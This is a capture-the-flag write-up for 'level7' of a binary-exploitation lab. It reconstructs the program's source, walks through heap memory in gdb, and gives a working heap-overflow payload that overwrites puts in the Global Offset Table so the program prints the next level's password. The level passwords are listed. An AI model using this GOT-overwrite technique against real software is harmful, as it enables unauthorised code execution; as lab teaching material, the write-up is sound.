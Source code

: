 # Level7 -

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level7 | `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d` |
| level8 | `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level7

```shell
./level7
> Segmentation fault (core dumped)

./level7 a
> Segmentation fault (core dumped)

./level7 a b
> ~~
```

The program seems take two arguments

Lets debug the binary

```shell
(gdb) info functions
0x080484f4  m
0x08048521  main
```

See our assembly interpretation in [source file](../source.c)

```C
char c[0x44];

typedef struct s_struct
{
    int n;
    void *ptr;
} t_struct;

void m(char *str)
{
    time_t seconds;

    seconds = time(0);
    printf("%s - %d\n", c, seconds);
}

int main(int argc, char **argv)
{
    t_struct *s_arg1;
    t_struct *s_arg2;

    int i = 0;
    s_arg1 = (void *)malloc(0x8);
    s_arg1->n = 1;
    s_arg1->ptr = (void *)malloc(0x8);
    s_arg2 = (void *)malloc(0x8);
    s_arg2->n = 2;
    s_arg2->ptr = (void *)malloc(0x8);

    strcpy(s_arg1->ptr, argv[1]);
    strcpy(s_arg2->ptr, argv[2]);
    fgets(c, 0x44, fopen("/home/user/level8/.pass", "r"));
    puts("~~");
}
```

The program takes two arguments. Those arguments are copied inside two pointers.
Then, the pass file is readed and stored inside a global variable. Unfortunately, this global variable is not readed. This work is done by a function `m` that is not called. Our job is to call the m-function after `fgets` syscall.

The idea would be to replace the address of `puts` in the Global Offset Table (GOT) with the `m-function` address.

Lets gets `puts` address in GOT and `m-function` address.

```bash
# puts address
objdump -R ./level7  | grep puts
> 08049928 R_386_JUMP_SLOT   puts

# m address
objdump -t ./level7  | grep -w m
> 080484f4 g     F .text  0000002d              m
```

```
run AAAAAAAA BBBBBBBB

# Before 1st strcpy
[-------------------------------------code-------------------------------------]
   0x8048596 <main+117>:        mov    eax,DWORD PTR [eax+0x4]
   0x8048599 <main+120>:        mov    DWORD PTR [esp+0x4],edx
   0x804859d <main+124>:        mov    DWORD PTR [esp],eax
=> 0x80485a0 <main+127>:        call   0x80483e0 <strcpy@plt>
   0x80485a5 <main+132>:        mov    eax,DWORD PTR [ebp+0xc]
   0x80485a8 <main+135>:        add    eax,0x8
   0x80485ab <main+138>:        mov    eax,DWORD PTR [eax]
   0x80485ad <main+140>:        mov    edx,eax
Guessed arguments:
arg[0]: 0x804a018 --> 0x0          -> s_arg1->ptr
arg[1]: 0xbffff838 ("AAAAAAAA")    -> argv[1]
[------------------------------------stack-------------------------------------]

gdb-peda$ x/20 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018 -> s_arg1->ptr*
                                                  _______________________|
                                                  |
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000


ni
# After 1st strcpy

x/20x 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
                                                  _______________________|
                                                  |
0x804a010:      0x00000000      0x00000011      0x41414141      0x41414141
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000

# Before 2nd strcpy
[-------------------------------------code-------------------------------------]
   0x80485b3 <main+146>:        mov    eax,DWORD PTR [eax+0x4]
   0x80485b6 <main+149>:        mov    DWORD PTR [esp+0x4],edx
   0x80485ba <main+153>:        mov    DWORD PTR [esp],eax
=> 0x80485bd <main+156>:        call   0x80483e0 <strcpy@plt>
   0x80485c2 <main+161>:        mov    edx,0x80486e9
   0x80485c7 <main+166>:        mov    eax,0x80486eb
   0x80485cc <main+171>:        mov    DWORD PTR [esp+0x4],edx
   0x80485d0 <main+175>:        mov    DWORD PTR [esp],eax
Guessed arguments:
arg[0]: 0x804a038 --> 0x0
arg[1]: 0xbffff841 ("BBBBBBBB")

ni
# After 1st strcpy

x/20x 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
                                                  _______________________|
                                                  |
0x804a010:      0x00000000      0x00000011      0x41414141      0x41414141
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
                                                  _______________________|
                                                  |
0x804a030:      0x00000000      0x00000011      0x42424242      0x42424242
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
```

```shell
b*0x080485bd # before 2nd strcpy
run $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
x/20x 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x41414141
0x804a020:      0x41414141      0x41414141      0x41414141      0x08049928
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000

ni
x/20x 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x41414141
0x804a020:      0x41414141      0x41414141      0x41414141      0x08049928
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000

x/x 0x08049928
0x8049928 <puts@got.plt>:       0x080484f4
```

```bash
~/level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
> 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
  - 1604570728 # time (useless)
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
- [FR - Buffer overflow](https://beta.hackndo.com/buffer-overflow/)

### Shell

- [Man malloc](https://linux.die.net/man/3/malloc)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strcpy](https://linux.die.net/man/3/strcpy)
- [Man fopen](https://linux.die.net/man/3/fopen)
- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man time]()
- [Man printf]()
